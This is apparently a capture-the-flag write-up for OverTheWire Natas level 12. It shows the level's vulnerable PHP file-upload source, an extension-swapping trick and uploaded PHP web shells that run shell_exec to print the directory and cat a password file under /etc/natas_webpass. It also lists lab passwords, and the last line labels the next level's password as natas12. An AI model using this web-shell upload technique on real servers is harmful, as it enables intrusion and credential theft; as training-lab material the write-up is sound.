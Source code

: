 # Natas Level 12
The ***URL*** to which you need to connect is *http://natas12.natas.labs.overthewire.org*. The ***username*** is *natas12* and the ***password*** is *EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3*. 

Lets check the [viewsource](http://natas12.natas.labs.overthewire.org/index-source.html) link.
```php
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
By analysing the php script we can inject some malicious scipts, But we've to use burp to change the extension :
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
Lets upload script.php
```php
<? $res = shell_exec('pwd'); echo "<pre>$res</pre>"; ?>
<!--/var/www/natas/natas12/upload -->
```
```php
<!-- You can use find command to find the password for this level but I expect that they are in the same dir -->
<? echo shell_exec('cat /etc/natas_webpass/natas13'); ?>
```

![Capture](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Natas/Captures/Capture5.PNG)

```
The password for natas12 is jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```
